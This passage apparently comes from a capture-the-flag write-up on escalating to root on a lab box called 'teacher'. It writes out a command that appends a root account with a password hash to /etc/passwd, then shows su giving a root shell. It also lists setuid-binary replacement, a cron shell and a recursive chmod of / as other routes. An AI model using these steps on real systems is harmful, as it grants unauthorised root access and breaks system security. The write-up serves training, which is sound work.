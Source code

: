 

Now add myself:



    giovanni@teacher:~/work/tmp$ echo 'oxdf:$1$xyz$cEUv8aN9ehjhMXG/kSFnM1:0:0:pwned:/root:/bin/bash' >> /etc/passwd



Now I just `su` to my new user, who is root:



    giovanni@teacher:~/work/tmp$ su oxdf
    Password: 
    root@teacher:/home/giovanni/work/tmp#



#### Others

There are several other options that come immediately to mind. Point to
a suid binary, and once writable, replace it with my own. Or get
permissions to the cron directory for root, and write a shell in there.
Or, if I wanted to be blunt, I could just point it at `/`, and let
`chmod` recursively give me (and everyone else) access to the entire
filesystem.





